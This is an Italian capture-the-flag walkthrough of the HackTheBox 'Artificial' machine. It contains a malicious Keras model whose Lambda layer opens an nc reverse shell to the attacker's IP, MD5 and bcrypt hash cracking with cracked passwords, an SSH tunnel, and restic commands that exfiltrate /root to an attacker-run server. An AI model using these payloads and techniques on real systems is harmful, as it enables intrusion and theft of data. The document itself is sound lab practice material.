 # Macchina artificial

IP vittima: 10.10.11.74 
IP attacante: 10.10.14.6

## Recon

`sudo nmap -p- --open -vvv -n -Pn 10.10.11.74 -oG porte`
`nmap -sC -sV -p22,80 10.10.11.74 -oN servizi`

```bash
# Nmap 7.94SVN scan initiated Wed Oct 22 18:37:34 2025 as: nmap -sC -sV -p22,80 -oN servizi 10.10.11.74
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 22 18:37:42 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
```

Porte: 22,80

## Porta 80

Probabilmente non si riesce a visitare la porta http 80 sul browser quindi aggiornare `/etc/hosts con: <IP MACCHINA> artificial.htb`
![](images\2025-10-22-23-14-56-image.png)

Creare un account e loggarsi, poi scaricare il Dockerfile

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-15-41-image.png)Sfrutteremo questo exploit: https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Inserendo il nostro IP e la nostra porta di ascolto

Creare il Docker con il docker file scaricato dal sito:

```bash
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Quando si avvia il container docker creato saremo in una shell bash:

- creare un file .py che contiene l'exploit (mettere il nostro ip e la porta)
- eseguire il file .py creato con python
- lo script lanciato creerà un file `exploit.h5`
- copiare il file exploit.h5 creato fuori dal docker ( `docker cp $(docker ps -l -q):/code/exploit.h5 ./` )

Ora dal sito uploadare il file `exploit.h5`

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-17-52-image.png)mettersi in ascolto sulla porta 4444 ( `nc -nlvp 4444` ) e cliccare su `View Predictions` sul sito

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-18-49-image.png)Siamo dentro con l'utente `app`
Vediamo che nella cartella /home ci sono due cartelle: app e gael che probabilmente è un utente che troviamo anche in /etc/passwd
![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-19-45-image.png)

## User gael

Con [[linpeas]]troviamo il file `/home/app/app/instance/users.db`
che possiamo esaminare:

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-20-17-image.png)Questa chiave `c99175974b6e192936d97224638a34f8` è un hash MD5 che potrebbe essere la password dell'user gael

Creiamo un file `hash.txt` che contiene la hash di gael e proviamo a craccarla con [[johntheripper]]
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-20-48-image.png)Troviamo la password: `mattp005numbertwo`

Con la password trovata possiamo entrare nell'utente gael con ssh `ssh gael@10.10.11.74`
Nella cartella `/home/gael` troviamo il file `user.txt` con la user flag

## Root

Con [[linpeas]]si trova il file `backrest_backup.tar.gz` nella cartella `/var/backups`
Scarichiamolo sul nostro pc e apriamolo ( `tar -xvf backrest_backup.tar.gz` )
Nella cartella `backrest/.config/backrest` troviamo il file `config.json`:

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-21-39-image.png)Questa è una **password cifrata con bcrypt** Analizziamo i dettagli:

### Struttura del dato:

- **Identificatore**: `"backrest_root"`

- **Algoritmo**: `bcrypt` (indicato dal campo `passwordBcrypt`)

- **Formato**: Stringa codificata in Base64
  
  ### Cosa contiene esattamente:
  
  La stringa `"JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"` è un hash bcrypt che include:
1. **Versione algoritmo** (`$2a$`)

2. **Costo computazionale** (work factor)

3. **Salt** (valore casuale)

4. **Hash della password** vero e proprio
   
   ### Contesto probabile:

`"backrest_root"` suggerisce che potrebbe essere una password per il tool di backup `backrest` che è una soluzione di backup accessibile via web basata su restic che utilizza la porta 9898 di localhost
Possiamo sfruttare questo exploit di restic: https://gtfobins.github.io/gtfobins/restic/ ma dovremo installare restic ( `apt install restic` ) e rest-server scaricandolo da qui https://github.com/restic/rest-server

Cracchiamola con [[johntheripper]]
`john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
Troviamo la password: `?:!@#$%^`

Nella macchina vittima lanciamo il comando `ss -tuln` 
Comando `ss`:

### Significato delle opzioni:

- **`-t`** (TCP) - Mostra le connessioni TCP  

- **`-u`** (UDP) - Mostra le connessioni UDP  

- **`-l`** (listening) - Mostra solo socket in ascolto

- **`-n`** (numeric) - Mostra numeri invece di risolvere nomi (più veloce)
  
  ### Cosa visualizza:
  
  Elenca **tutti i servizi in ascolto** sulla macchina con:

- **Protocollo** (TCP/UDP)    

- **Porta** in uso    

- **Indirizzo IP** di ascolto   

- **Stato** della connessione

Vediamo che la porta 9898 è utilizzata:
![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-22-29-image.png)

Sulla nostra macchina, con Il comando `ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898` creiamo un **tunnel SSH con port forwarding locale**. 

### Cosa succede esattamente:

1. **Sulla tua macchina locale**:    
   - SSH apre un socket in ascolto sulla **porta 9898**       
2. **Quando ti connetti alla tua porta 9898**:  
   - Il traffico viene **incapsulato** nella connessione SSH      
   - Viaggia cifrato fino al server `10.10.11.74`      
3. **Sul server remoto**:
   - SSH inoltra il traffico a `127.0.0.1:9898`     
   - (cioè a un servizio in esecuzione sul server stesso)

Con `localhost:9898` nel nostro browser entriamo nel servizio backrest sulla macchina vittima
![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-23-10-image.png)

Accediamo con Username: `backrest_root` e Password: `!@#$%^`
Dopo aver fatto l'accesso dovremo creare una nuova repo (+ Add Repo)

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-23-38-image.png)mettendo un nome (repox), URI /opt e una password (123456)
![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-24-15-image.png)

Mettiamoci in ascolto sulla nostra macchina con 
`./rest-server --path /tmp/restic-data --listen :12345 --no-auth`

Poi sul sito selezioniamo la repo creata e clicchiamo su Run Command

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-24-48-image.png)Poi inseriamo i seguenti comandi:
`-r rest:http://<NOSTRO IP>:12345/repox init`
`-r rest:http://<NOSTRO IP>:12345/repox backup /root`

Sulla nostra macchina inseriamo i comandi:
`restic -r /tmp/restic-data/repox snapshots`

![](C:\Users\andre\AppData\Roaming\marktext\images\2025-10-22-23-25-24-image.png)`restic -r /tmp/restic-data/repox restore f8118067 --target ./restore`   (f8118067 è l'ID della repo)

Poi con il comando `cat restore/root/root.txt` otteniamo la flag root
